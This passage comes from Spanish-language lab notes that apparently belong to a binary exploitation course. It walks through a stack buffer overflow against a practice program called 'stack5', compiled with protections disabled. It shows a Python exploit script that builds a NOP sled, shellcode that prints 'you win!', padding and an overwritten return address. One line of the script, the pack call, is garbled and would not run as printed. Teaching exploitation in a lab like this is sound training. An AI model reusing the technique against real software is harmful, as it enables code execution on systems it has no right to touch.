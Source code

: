     ```
    user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb 
    -mpreferred-stack-boundary=2 -z execstack -o stack5 stack5.c
       
    user@abos:~$ ./stack5
    buf: bffff5b4 cookie: bffff604
    ```
* Planificamos el overflow por entrada estándar, considerando el formato little endian:

![](<../../../.gitbook/assets/imagen (47).png>)

*   Armamos un archivo en Python para ingresar el input

    ```
       
    #! /usr/bin/env python
    """Uso: ./exploit.py | ./stack5 """
       
    import sys
    from struct import pack
       
    #shellcode, imprime you win!
    shellcode  = "\xeb\x16\x31\xc0\x59\x88\x41\x08\xb0\x04\x31\xdb\x43"
    shellcode += "\x31\xd2\xb2\x09\xcd\x80\xb0\x01\x4b\xcd\x80\xe8\xe5"
    shellcode += "\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21\x41" 
                   
    ret_addr = 0xbffff5b4                           #addr de buf
       
    exploit  = "\x90" * 20                          #nops iniciales buf
    exploit += shellcode                            #shellcode
    exploit += "A" * (80-20-len(shellcode))         #padding hasta fin de buf
    exploit += "BBBB"                               #lleno cookie
    exploit += "CCCC"                               #lleno ebp
    exploit += pack(", ret_addr)                 #defino return address
       
    sys.stdout.write(exploit)    
    ```
*   Ejecutamos el exploit

    ```
    user@abos:~$ ./exploit.py | ./stack5
    buf: bffff5b4 cookie: bffff604
    you win!
    ```

    Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (51).png>)
